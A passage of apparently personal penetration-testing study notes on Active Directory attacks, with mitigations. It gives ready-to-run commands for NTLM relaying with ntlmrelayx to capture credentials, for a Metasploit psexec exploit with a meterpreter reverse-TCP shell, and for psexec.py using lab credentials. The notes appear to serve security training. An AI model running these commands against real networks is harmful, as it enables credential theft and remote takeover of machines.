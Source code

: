     * Setup relay

    ```shell
    sudo ntlmrelayx.py -tf targets.txt -smb2support

    #trigger connection in Windows machine
    #by pointing it at the attacker machine

    #-i option can be used for an interactive shell
    #-c option to execute commands like "whoami"
    ```

    * Event occurs in Windows machine

    * Credentials are captured (and saved) and we get access to machine

  * Mitigation:

    * Enable SMB signing on all devices

    * Disable NTLM authentication on network

    * Account tiering

    * Local admin restriction (to prevent lateral movement)

* Gaining Shell Access:

  ```shell
  #this step has to be done once we have the credentials
  msfconsole

  search psexec

  use exploit/windows/smb/psexec

  options
  #set all required options
  #such as RHOSTS, smbdomain, smbpass and smbuser

  set payload windows/x64/meterpreter/reverse_tcp

  set LHOST eth0

  run
  #run exploit
  ```

  ```shell
  #we can use another tool called psexec.py
  psexec.py marvel.local/fcastle:Password1@192.168.57.141

  #try multiple options if these tools do not work
  #such as smbexec and wmiexec
  ```

* IPv6 Attacks (refer [mitm6 attacks](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/) and [NTLM relays](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/) for more info):
